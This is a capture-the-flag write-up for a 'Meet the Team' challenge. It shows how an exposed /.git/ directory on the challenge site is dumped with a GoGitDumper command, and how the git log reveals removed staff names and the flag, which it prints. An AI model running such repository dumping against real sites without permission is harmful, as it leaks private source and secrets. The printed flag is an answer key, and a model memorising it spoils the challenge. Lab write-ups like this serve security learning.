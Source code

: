 # Meet the Team (Did not Complete just for a future reference)
## Points: 50
<br>
You find out that the team was redacted from the website and in the source code it mentions:<br>

###### "Can we please stop sharing our version control software out on our website?"<br>

This means that there is a git repo on the site and when navigated too, it shows there is a /.git/ directory<br>
I ran a the program GoGitDumper<br>

###### /root/go/bin/gogitdumper -u https://constellations.page/.git/
<br>
This will then give us the git repo and we can look at the log to see what all was taken down.<br>
In the log we see the team and the flag.<br>

###### git log -f > log

OUTPUT

<!-- Projects Section -->
       <section id="projects" class="projects-section bg-light">
               <div class="container">

                       <ul>
                               <li><h4><b>Orion Morra</b> &mdash; Support</h4></li>
                               
                               <li><h4><b>Lyra Patte</b> &mdash; Marketing</h4></li>
                               
                               <li><h4><b>Leo Rison</b> &mdash; Development</h4></li>
                               
                               <li><h4><b>Gemini Coley</b> &mdash; Operations</h4></li>

                               <li><h4><b>Hercules Scoxland</b> &mdash; Sales</h4></li>

                               <li><h4><b>Vela Leray</b> &mdash; Management</h4></li>

                               <li><h4><b>Pavo Welly</b> &mdash; HR</h4></li>

                               <li><h4><b>Gus Rodry</b> &mdash; Accounting</h4></li>

                               <!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->



#### This shows a list of Users:<br>
Orion Morra<br>
Lyra Patte<br>
Leo Rison<br>
Gemini Coley<br>
Hercules Scoxland<br>
Vela Leray<br>
Pavo Welly<br>
Gus Rodry<br>
<br>
<br>
Flag: flag{4063962f3a52f923ddb4411c139dd24c}
